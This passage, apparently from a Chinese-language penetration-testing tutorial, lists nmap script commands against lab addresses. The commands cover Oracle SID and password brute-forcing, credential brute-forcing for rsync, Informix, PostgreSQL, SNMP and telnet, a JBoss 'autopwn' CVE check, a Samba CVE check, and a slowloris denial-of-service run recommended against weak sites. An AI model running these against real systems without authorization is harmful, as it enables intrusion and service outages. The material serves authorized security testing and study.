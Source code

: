 ```
nmap --script=oracle-sid-brute -p 1521-1560 192.168.137.5   

```

![enter image description here](img/img21_u15_jpg.jpg)

oracle 弱口令破解

```
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL,userdb=/var/passwd,passdb=/var/passwd 192.168.137.5      

```

![enter image description here](img/img22_u11_jpg.jpg)

（6）其他一些比较好用的脚本

```
nmap --script=broadcast-netbios-master-browser 192.168.137.4   发现网关  
nmap -p 873 --script rsync-brute --script-args 'rsync-brute.module=www' 192.168.137.4  破解 rsync  
nmap --script informix-brute -p 9088 192.168.137.4    informix 数据库破解  
nmap -p 5432 --script pgsql-brute 192.168.137.4       pgsql 破解  
nmap -sU --script snmp-brute 192.168.137.4            snmp 破解  
nmap -sV --script=telnet-brute 192.168.137.4          telnet 破解  
nmap --script=http-vuln-cve2010-0738 --script-args 'http-vuln-cve2010-0738.paths={/path1/,/path2/}' <target>  jboss autopwn  
nmap --script=http-methods.nse 192.168.137.4 检查 http 方法  
nmap --script http-slowloris --max-parallelism 400 192.168.137.4  dos 攻击，对于处理能力较小的站点还挺好用的 'half-HTTP' connections   
nmap --script=samba-vuln-cve-2012-1182  -p 139 192.168.137.4 
```
